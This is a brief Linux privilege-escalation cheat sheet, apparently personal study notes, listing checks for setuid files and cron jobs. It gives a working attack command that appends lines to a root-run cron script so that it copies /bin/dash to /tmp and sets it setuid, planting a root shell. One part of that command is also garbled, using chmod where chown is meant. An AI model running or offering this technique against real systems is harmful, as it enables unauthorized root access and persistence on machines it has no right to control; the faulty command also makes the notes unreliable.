 Linux Privilege escalation
==========================

**Identifcation methods**
1. Check su privileged files

2. Check cronjobs
cd /etc/cron* - Check all the folders

**Using vulnerable cronjob running in root**
echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit">>/usr/local/sbin/cron-logrotate.sh


